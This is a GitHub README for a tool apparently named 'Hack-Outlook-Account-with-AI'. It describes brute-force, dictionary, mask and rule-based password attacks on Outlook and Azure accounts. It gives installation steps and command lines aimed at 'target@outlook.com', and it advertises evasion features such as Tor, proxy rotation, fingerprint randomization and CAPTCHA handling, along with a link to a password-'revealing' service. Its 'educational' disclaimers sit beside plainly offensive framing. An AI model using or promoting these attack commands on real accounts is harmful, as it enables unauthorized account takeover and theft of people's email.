

# Outlook Account Password Security Analyzer | Educational Purposes Only


---

## ⚠️ LEGAL NOTICE – PLEASE READ CAREFULLY

This project is intended strictly for EDUCATION, RESEARCH, and AUTHORIZED SECURITY TESTING.

The software relies on the PASS REVELATOR API to demonstrate password analysis and attack concepts.
For more information about email account protection and password hacking, visit:
https://www.passwordrevelator.net/en/passrevelator



- 🚫 Illegal usage forbidden: Any attempt to access Outlook accounts without ownership or explicit consent is unlawful.
- ✅ Authorization mandatory: Tests may only be performed on accounts you own or have written permission to audit.
- 🔐 Educational objective: The goal is to identify weak password practices and promote stronger authentication habits.
- ⚖️ User responsibility: The user is solely responsible for complying with all applicable laws.

By using this software, you acknowledge that unauthorized access to computer systems is a criminal offense in many jurisdictions.

---

## 🎯 Project Overview

The Outlook Account Password Security Analyzer is a practical cybersecurity hacking tool designed to illustrate how password weaknesses can be exploited. It is aimed at students, researchers, and security professionals who want to understand password hacking in a controlled and ethical environment.

### 🎓 Educational Objectives

- Demonstrate common password attack techniques safely.
- Evaluate password strength on authorized Outlook accounts.
- Raise awareness of credential security weaknesses.
- Support ethical hacking and cybersecurity training.
- Explore OAuth2 authentication vulnerabilities for learning purposes.
- Works with AZUR accounts.

---

## ✨ Main Features

### 🔑 Password Analysis Methods

- Dictionary-Based Testing: Checks passwords against standard or custom wordlists.
- Mask-Based Generation: Creates passwords using defined character patterns.
- Rule-Oriented Mutations: Applies common transformations to base words.
- Hybrid Strategies: Combines multiple techniques for broader coverage.

### 🌐 Privacy and Anonymity Options

- Automatic Proxy Rotation during execution.
- Tor Network support for anonymized traffic.
- Adaptive request rate limiting.
- User-Agent and browser fingerprint randomization.

### 📊 Runtime Monitoring

- Live progress tracking.
- Success rate and performance statistics.
- System resource usage monitoring.
- Detailed logging output.

### 🔒 Secure Authentication Handling

- CSRF token processing.
- Outlook-style authentication workflows.
- Secure session lifecycle management.
- CAPTCHA detection mechanisms.

---

## 🚀 Installation Guide

### Requirements

- Python 3.8 or newer
- pip package manager
- Active internet connection

### Step 1: Clone the Repository

```bash
git clone https://github.com/HoffmannAlex/Hack-Outlook-Account-with-AI.git  
cd outlook-password-tool
```

### Step 2: Install Dependencies

```bash
pip install -r requirements.txt
```

### Core Dependencies

- aiohttp>=3.8.0  
- requests>=2.28.0  
- cryptography>=3.4.0  
- stem>=1.8.0  
- psutil>=5.9.0  
- asyncio>=3.9.0  

### Step 3: Configure Azure AD Application

1. Go to [Azure Portal](https://portal.azure.com)
2. Create a new App Registration
3. Note the Client ID and create a Client Secret
4. Configure API permissions for Microsoft Graph
5. Update `config.json` with your credentials

### Step 4: Verify Installation

```bash
python hack_outlook.py --help
```

---

## ⚡ Example Use Cases

### Standard Password Audit

```bash
python hack_outlook.py --email your_account@outlook.com --password-list passwords.txt
```

### Anonymous Testing via Tor

```bash
python hack_outlook.py --email your_account@outlook.com --password-list passwords.txt --use-tor
```

### High-Speed Multi-Thread Execution

```bash
python hack_outlook.py --email your_account@outlook.com --password-list passwords.txt --threads 4 --use-tor --min-delay 2 --max-delay 5
```

### Proxy-Based Testing

```bash
python hack_outlook.py --email your_account@outlook.com --password-list passwords.txt --proxy-list proxies.txt --threads 3
```

---

## 🔥 Supported Testing Modes

### 1. Dictionary-Based Auditing

```bash
python hack_outlook.py --email target@outlook.com --password-list common_passwords.txt  
python hack_outlook.py --email target@outlook.com --password-list custom_list.txt  
```

### 2. Mask-Based Password Generation

```
?l?l?l?d?d?d   # Example: abc123  
?u?l?l?l?d?d   # Example: Abcd12  
?l?l?l?l?s?d   # Example: abcd!1  
```

### 3. Rule and Combination Strategy

```bash
python hack_outlook.py --email target@outlook.com --strategy combination --base-words "password,outlook,user"
```

### 4. Brute Force Simulation (Educational Use Only)

```bash
python hack_outlook.py --email target@outlook.com --strategy brute --min-length 4 --max-length 8
```

---

## 📝 Configuration

Edit `config.json` to set up your Azure AD application credentials:

```json
{
    "azure_ad": {
        "client_id": "your_client_id",
        "client_secret": "your_client_secret",
        "authority": "https://login.microsoftonline.com/common",
        "scopes": ["https://graph.microsoft.com/.default"]
    },
    "app": {
        "user_agent": "OutlookSecurityTester/1.0",
        "timeout": 30,
        "max_retries": 3
    }
}
```

---

## ⚠️ Legal and Ethical Considerations

This tool is provided for educational and authorized security testing purposes only. The developers assume no liability and are not responsible for any misuse or damage caused by this program. It is the end user's responsibility to obey all applicable local, state, and federal laws. 

**IMPORTANT**: Only test accounts you own or have explicit permission to test. Unauthorized access to computer systems is illegal in most jurisdictions.

---

## 📜 License

This project is licensed under the Educational Community License v2.0 (ECL-2.0). See the LICENSE file for details.

---

## 🙏 Acknowledgments

- Microsoft Graph API Team
- Open Source Security Community
- Educational Institutions promoting responsible security research
